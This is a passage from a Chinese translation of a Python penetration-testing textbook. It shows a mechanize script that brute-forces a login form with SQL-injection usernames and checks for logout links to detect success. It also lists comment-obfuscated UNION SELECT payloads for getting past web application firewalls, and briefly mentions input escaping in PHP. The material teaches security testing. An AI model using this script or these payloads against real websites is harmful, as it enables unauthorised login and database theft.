 ```py
  br.form[user1] = user_exp[p]
  br.form[pass1] = "aaaaaaaa"
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",user_exp[p]

  elif(p+1 == len(user_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

在上述代码中，我们使用了一个额外的变量`form`；在输出中，您必须选择表单名称。在`sql_form6.py`代码中，我假设用户名和密码包含在表单编号`1`中。

上述代码的输出如下：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/19af076d-d080-46c5-857b-e5cd0670cc36.png)

SQL 注入用户名查询利用

现在，我们可以合并`sql_form6.py`和`sql_from7.py`代码，并制作一个代码。

为了减轻前面的 SQL 注入攻击，您必须设置一个过滤程序，过滤用户输入的输入字符串。在 PHP 中，使用`mysql_real_escape_string()`函数进行过滤。以下屏幕截图显示了如何使用此函数：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/eb29908b-a891-4d3d-bcc6-71308962fd9a.png)

PHP 中的 SQL 注入过滤

到目前为止，您已经了解了如何进行 SQL 注入攻击。在 SQL 注入攻击中，我们必须手动完成很多事情，因为有很多 SQL 注入攻击，例如基于时间的、基于 SQL 查询的包含 order by 的、基于联合的等等。每个渗透测试人员都应该知道如何手动制作查询。对于一种类型的攻击，您可以制作一个程序，但现在，不同的网站开发人员使用不同的方法来显示来自数据库的数据。一些开发人员使用 HTML 表单来显示数据，而一些使用简单的 HTML 语句来显示数据。一个名为*sqlmap*的 Python 工具可以做很多事情。然而，有时会存在 Web 应用程序防火墙，例如 mod security；这不允许*union*和*order by*等查询。在这种情况下，您必须手动制作查询，如下所示：

```py
/*!UNION*/ SELECT 1,2,3,4,5,6,--
/*!00000UNION*/ SELECT 1,2,database(),4,5,6 –
/*!UnIoN*/ /*!sElEcT*/ 1,2,3,4,5,6 –
```

您可以制作一个制作的查询列表。当简单查询不起作用时，您可以检查网站的行为。根据行为，您可以决定查询是否成功。在这种情况下，Python 编程非常有帮助。

现在，让我们看一下以下步骤，为基于防火墙的网站制作 Python 程序：
